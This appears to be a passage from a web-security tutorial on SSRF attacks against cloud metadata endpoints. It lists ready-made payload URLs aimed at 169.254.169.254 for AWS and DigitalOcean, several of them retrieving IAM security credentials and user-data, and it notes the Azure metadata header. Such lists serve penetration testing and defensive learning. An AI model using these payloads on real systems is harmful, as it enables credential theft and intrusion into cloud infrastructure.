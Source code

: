 ### **Cloud provider metadata**

With SSRF an attacker is able to read metadata of the cloud provider that you use, be it AWS, Google Cloud, Azure, DigitalOcean, etc. This is usually done by using the private addressing that the provider listed in their documentation.

#### **AWS**

For AWS instead of using `localhost` or `127.0.0.1` attackers use the `169.254.169.254` address for exploits.  
  
Significant information can be extracted from AWS metadata, from public keys, security credentials, hostnames, IDs, etc.  
  
Some common exploits include:  
  
`https://target.com/page?url=http://169.254.169.254/latest/user-data  
https://target.com/page?url=http://169.254.169.254/latest/user-data/iam/security-credentials/ROLE_NAME  
https://target.com/page?url=http://169.254.169.254/latest/meta-data  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/ami-id  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/hostname  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/public-keys  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access  
https://target.com/page?url=http://169.254.169.254/latest/dynamic/instance-identity/document  
https://target.com/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role`  
  
Additional links can be found in the [official documentation of AWS](https://docs.aws.amazon.com/index.html).

#### **DigitalOcean**

Similar to AWS, DigitalOcean uses `169.254.169.254` for their services and checks the [documentation](https://www.digitalocean.com/docs/) for more information.  
  
`https://target.com/page?url=http://169.254.169.254/metadata/v1.json  
https://target.com/page?url=http://169.254.169.254/metadata/v1/id  
https://target.com/page?url=http://169.254.169.254/metadata/v1/user-data  
https://target.com/page?url=http://169.254.169.254/metadata/v1/hostname  
https://target.com/page?url=http://169.254.169.254/metadata/v1/region  
https://target.com/page?url=http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address`

#### **Azure**

Azure is more limited than other cloud providers in this regard. Check the [official documentation](https://docs.microsoft.com/en-us/azure/?product=featured) for more information.  
  
Azure requires header `Metadata: true`.  
  